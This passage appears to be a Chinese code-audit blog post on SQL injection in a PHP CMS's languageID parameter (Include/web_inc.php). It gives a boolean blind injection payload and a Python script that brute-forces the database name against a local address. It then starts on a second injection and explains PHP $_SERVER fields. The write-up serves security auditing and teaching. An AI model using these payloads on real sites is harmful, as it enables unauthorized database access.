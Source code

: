 随便找个包含 `web_inc.php` 的页面进行 `post传languageid参数`

直接构造：
>languageID=1 and ascii(substr(database(),1,1))^109

![](https://img-blog.csdnimg.cn/69283c52ad334447ab23971450417634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


写个脚本：

```php
import requests

url = "http://192.168.42.241/"
database=""

for i in range(1,6):
    for j in range(97,127):
        payload = "1 and ascii(substr(database(),{i},1))^{j}".format(j=j,i=i)

        data = {"languageID":payload}
        #print(payload)
        c=requests.post(url=url,data=data).text
        if "Empty!" in c:
            database+=chr(j)
print(database)

```

# 前台SQL注入之二
Include/web_inc.php

![](https://img-blog.csdnimg.cn/3e287318f95142238cdd76f82ed528b7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
解释一下`$_SERVER`一些参数

>http://www.biuuu.com/index.php?p=222&q=biuuu

结果：
```
$_SERVER["QUERY_STRING"] = "p=222&q=biuuu"
$_SERVER["REQUEST_URI"] = "/index.php?p=222&q=biuuu"
$_SERVER["SCRIPT_NAME"] = "/index.php"
$_SERVER["PHP_SELF"]     = "/index.php"

$_SERVER["QUERY_STRING"]获取查询语句，实例中可知，获取的是?后面的值
$_SERVER["REQUEST_URI"] 获取http://www.biuuu.com后面的值，包括/
$_SERVER["SCRIPT_NAME"] 获取当前脚本的路径，如：index.php
$_SERVER["PHP_SELF"] 当前正在执行脚本的文件名
```

跟进 `web_language_ml` 函数

![](https://img-blog.csdnimg.cn/8bceb2eb9f374930904c95c2b2ed1c61.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
